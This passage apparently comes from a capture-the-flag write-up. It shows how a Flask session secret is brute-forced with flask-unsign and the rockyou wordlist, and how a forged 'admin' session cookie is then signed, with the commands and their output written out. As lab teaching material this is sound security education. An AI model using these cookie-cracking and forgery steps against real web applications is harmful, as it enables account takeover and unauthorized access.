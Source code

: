    ## Stack Trace
    FlaskUnsignException: Secret must be a string-type (bytes, str) and received 'int'. To fix this, either add quotes to the secret 123456 or use the --no-literal-eval argument.
      File "/usr/lib/python3.8/multiprocessing/pool.py", line 125, in worker
        result = (True, func(*args, **kwds))
      File "/home/oxdf/.local/lib/python3.8/site-packages/flask_unsign/cracker.py", line 69, in unsign
        if session.verify(self.session, secret, legacy=self.legacy, salt=self.salt):
      File "/home/oxdf/.local/lib/python3.8/site-packages/flask_unsign/session.py", line 29, in verify
        raise FlaskUnsignException(

    [!] Failed to find secret key after 0 attempts.



It seems to be interpreting "123456" in the file as an int, which is
odd. But then the exception message tells how to fix this, by adding
`--no-lteral-eval`. I'll add that, and it works, finding the secret very
quickly:



    oxdf@hacky$ flask-unsign --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiMHhkZiJ9.YkOi3w.izn9BJ3ifHAo0BAfnrWr3EW6Nuc' -w /usr/share/wordlists/rockyou.txt --no-literal-eval
    [*] Session decodes to: {'logged_in': True, 'username': '0xdf'}
    [*] Starting brute-forcer with 8 threads..
    [+] Found secret key after 17024 attempts
    b'secret123'



#### Failed Access as admin

With access to the secret, I can write whatever I want into the cookie,
which means I can log in as any use. So far through the site, there's
been no indication of any other user name, which is a challenge. One
reasonable way to go would to hope that there's an admin account.

I'll craft a cookie:



    oxdf@hacky$ flask-unsign --sign --cookie "{'logged_in': True, 'username': 'admin'}" --secret 'secret123'
    eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.YkP2Cg.saisYxScWGL1RiUL7hoO25l60hg



In Firefox dev tools, in the Storage tab, I'll replace my cookie with
that one:

![](/img/image-20220330063228612.png)

